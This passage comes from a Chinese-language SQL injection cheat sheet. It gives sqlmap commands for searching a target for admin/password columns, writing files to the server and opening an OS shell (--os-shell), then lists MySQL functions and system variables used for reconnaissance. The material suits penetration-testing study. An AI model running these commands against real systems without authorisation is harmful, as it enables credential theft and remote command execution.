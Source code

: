 >   - 在数据库中搜索字段 / 表 / 数据库名
>
>     `sqlmap -u http:/xxxxxx.xxx --search -C/T/D admin,password`
>
>   - 写入文件
>     `sqlmap -u http://xxx.xxx -–file-dest "要写入的文件在本地的路径" –file-write "目标路径"`
>
>   - 调用shell
>
>     `sqlmap -u http://xxx.xxx --os-shell`





# 4、mysql常用函数：

> ### 常用函数
>
> ```sql
> length()                     //返回字符串长度
> substr()                     //截取字符串长度
> ascii()                      //返回ASCII码
> ord()                        //返回字符串第一个字符的ascii值
> rand()                       //返回0和1之间的一个随机数
> hex()                        //把字符串转换为十六进制
> unhex()                      //hex的反向操作
> mid()                        //返回一个字符串的一部分
> left()                       //返回字符串最左面几个字符
> now()                        //当前系统时间
> floor()                      //返回不大于x的最大整数值
> md5()                        //返回MD5值
> count()                      //返回执行结果数量
> concat()                     //没有分隔符的链接字符串
> concat_ws()                  //含有分隔符的链接字符串
> group_concat                 //返回带有来自一个组的连接的非NULL值的字符串结果
> strcmp(a,b)                  //将a和b比较，小的话返回1，等于的话返回0，大于的话返回-1
> ```
>
> ### 内置函数
>
> ```sql
> @@datadir                    //读取数据库路径
> @@basedir                    //MySQL安装路径
> @@version_compile_os    	 //操作系统
> @@secure_file_priv           //查看数据库secure_file_priv 的参数值
> @@character_sets_dir         //字符集安装目录
> @@character_set_server       //字符集编码格式
> ```
>
> ### 用户名
>
> ```sql
> user()                        //用户名
> current_user()                //当前用户名
> system_user()                 //系统用户名
> session_user()                //链接数据库的用户名
> ```
>
> ### 数据库
>
> ```sql
> database()                            //数据库名
> version()                             //MySQL数据库版本
> show variables like '%version_%';     //可以查询数据库的版本信息